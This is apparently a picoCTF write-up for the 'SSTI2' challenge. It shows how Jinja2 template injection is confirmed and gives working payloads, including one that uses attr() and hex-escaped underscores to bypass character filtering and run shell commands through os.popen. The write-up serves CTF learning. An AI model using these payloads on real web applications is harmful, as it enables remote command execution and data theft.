



# SSTI2 | picoCTF
## Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!

## Analysis
First we need to check if we can use server-side template injection by using `{{7*7}}` as input:


This returns us **result of 49**. That means server-side template injection works!

Now we need to determine what type of templating by using command `{{7*'7'}}:


Now we confirmed that this server uses **Jinja2** template. That means we can start to dive deeper into injections.

## Solution
I have tried my previous payload from **SSTI1** CTF:
```bash
{{ url_for.__globals__.os.popen("id").read() }}
```
however, this time input sanitization is used, therefore we get the following funny response from server:


After that response I googled for "Jinja2 SSTI exploitation" and used the following website:


Here, we have same payload, which is modified several times to bypass input snitization. As you can see, the very first payload is default payload. The second one is used if '.' is blocked. Third one bypasses both '.' and '_'. I tried all of them, and **only fourth one** worked for me!:
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```


After seeing that fourth payload worked, I started to modify it based on my needs. I changed `id` to `ls` to list files/folders server has:
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

## Answer
As a final payload, I changed `ls` to `cat flag` and got the flag for this CTF!:


This is how we solve current CTF!!
